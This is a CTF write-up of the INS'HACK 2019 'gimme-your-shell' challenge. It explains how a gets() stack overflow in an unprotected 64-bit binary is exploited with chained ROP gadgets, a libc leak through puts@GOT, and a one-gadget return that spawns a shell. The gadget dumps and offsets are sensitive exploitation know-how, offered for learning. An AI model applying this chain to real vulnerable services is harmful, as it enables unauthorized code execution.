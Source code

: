 ### writeup by p4w@beerPWN team

# INS'HACK 2019 CTF
## gimme-your-shell PWN challnge

This is not the intended solution for this challenge since i used ROP to solve it.
We have a 64-bit <a href="./weak">binary</a> and the libc of the remote server is NOT provided.
Let's start with a little bit of reverse on the binary.
As we can see from the image below the main() function will call the vuln() function.

![alt text](images/main.png)

The assembly of vuln() function show us that dangerous function 'gets()' will be used.

![alt text](images/vuln.png)

As we can see from the man page the gets(*s) function will read until \n or EOF, but there is no control on how many byte it will read and consequently write into *s.

![alt text](images/man_gets.png)

By reading the vuln function we can see that the argument for the gets function will be a variable located into the stack.
So what we expect from this is a stack-buffer overflow.
Let's verify this:

![alt text](images/segfault.png)

Segfault! After 24 bytes we can overwrite the saved ret address.
<br>
Let's also check for the protection on the binary
```
$ checksec ./weak
Canary                        : No
NX                            : No
PIE                           : No
Fortify                       : No
RelRO                         : No
```
As we can see the binary has no protection at all. So potentially we can also inject a shellcode into the stack and jump on it, but instead of this i managed to do full ROP.
What i want to do to solve this challenge was make a memory-leak, restart execution and then ret2libc address to gain a shell.
So what i did at this point was start to find some gadgets.
```
$ ROPgadget --binary ./weak --depth 40
```

### The problem
As we can see from the dump there are NOT simple gadget like 'pop rdi' to control registers.
```
$ ROPgadget --binary ./weak --depth 40 |grep pop|grep ret
0x0000000000400519 : add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400510 : add byte ptr [rax + 0x39], cl ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400509 : add byte ptr [rax - 0x75], cl ; add eax, 0x20050f ; cmp rax, rbx ; jb 0x400512 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051b : add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050c : add eax, 0x20050f ; cmp rax, rbx ; jb 0x40050f ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050e : add eax, 0x39480020 ; fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400698 : add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051e : add esp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040051d : add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050f : and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050c ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069b : clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069a : cmp eax, -1 ; jne 0x40069b ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400512 : cmp eax, ebx ; jb 0x400509 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400699 : cmp rax, -1 ; jne 0x40069c ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400511 : cmp rax, rbx ; jb 0x40050a ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400513 : fdiv dword ptr [rdx - 0x1e] ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069e : int1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400514 : jb 0x400507 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040069d : jne 0x400698 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400516 : mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400697 : mov eax, dword ptr [rbx] ; cmp rax, -1 ; jne 0x40069e ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050b : mov eax, dword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400510 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400696 : mov rax, qword ptr [rbx] ; cmp rax, -1 ; jne 0x40069f ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050a : mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400511 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400693 : or bh, bh ; ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400507 : or byte ptr [rax], ah ; mov rax, qword ptr [rip + 0x20050f] ; cmp rax, rbx ; jb 0x400514 ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400522 : pop rbp ; ret
0x0000000000400521 : pop rbx ; pop rbp ; ret
0x0000000000400638 : pop rsp ; and al, 8 ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
0x000000000040069c : push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400695 : ror byte ptr [rax - 0x75], 1 ; add ecx, dword ptr [rax - 0x7d] ; clc ; push qword ptr [rbp - 0xf] ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x0000000000400518 : sti ; add al, 0x20 ; add byte ptr [rcx], al ; add rsp, 8 ; pop rbx ; pop rbp ; ret
0x000000000040050d : syscall ; and byte ptr [rax], al ; cmp rax, rbx ; jb 0x40050e ; mov byte ptr [rip + 0x2004fb], 1 ; add rsp, 8 ; pop rbx ; pop rbp ; ret
```
Then i start to search for more complicated gadgets that chained together they will make me get control over rdi register (at least).
The first gadget that i picked was this one:
```
0x0000000000400637 : mov ebx, dword ptr [rsp + 8] ; mov rbp, qword ptr [rsp + 0x10] ; mov r12, qword ptr [rsp + 0x18] ; mov r13, qword ptr [rsp + 0x20] ; mov r14, qword ptr [rsp + 0x28] ; mov r15, qword ptr [rsp + 0x30] ; add rsp, 0x38 ; ret
```
and this is the second one:
```
0x0000000000400620 : mov rdx, r15 ; mov rsi, r14 ; mov edi, r13d ; call qword ptr [r12 + rbx*8]
```
With the first one we can basically get control over `ebx, rbp, r12, r13, r14, r15` by writing double/quad words into the stack at the correct offsett.<br>
Then we can use the second gadget that end with a *call* instruction to make a call on a function that we want.<br>
Since for now i just want to leak some libc address i'm just interesting on controlling rdi register with some GOT address and then call puts@GOT.
The second gadget make a `mov edi, r13d` then we need to place leak-addr@GOT into `r13` with the first gadget in this way, when we land on the second gadget, the contents of r13 will be placed into rdi.
I also need to make a call on puts() with the second gadget, then i need to set `rbx=0` and `r12=puts@GOT`, and again i can do that with the first gadget.
We just need one more little thing to make all work, look closely at the second gadgets

![alt text](images/second_gdt.png)

after the call instruction we have three instruction
```
000000000040062d         add        rbx, 0x1
0000000000400631         cmp        rbx, rbp
0000000000400634         jne        loc_400620
```
basically it's a loop. To exit from that loop and go over we need to make `rbx=rbp`, then with the first gadget we need to set `ebx=0` and `rbp=1`.
<br>
Now that we are able to leak we just need restart execution to repeat the buffer-overflow again and this time (after <a href="https://libc.blukat.me/">libc version evaluation</a>) we can overwrite the ret address with one-gadget to gain the shell.
<br>
Getting the flag :)

![alt text](images/flag.png)

You can check the full <a href="./x.py">exploit</a> here.

After the CTF, speaking with the admin i discovered that the intended way for this one was simply to jump on a shellcode since the stack was executable. I didn't manage to do it that way cause i assumed the ASLR was enabled on the remote system, but i was WRONG. Actually the ASLR was disabled and then we can predict where the shellcode will be placed. So i did a mistake but i managed to solve it in another way, and sinceraly I'm happy of that just because I could learn more doing it.
<br>
Cheers, p4w ;)
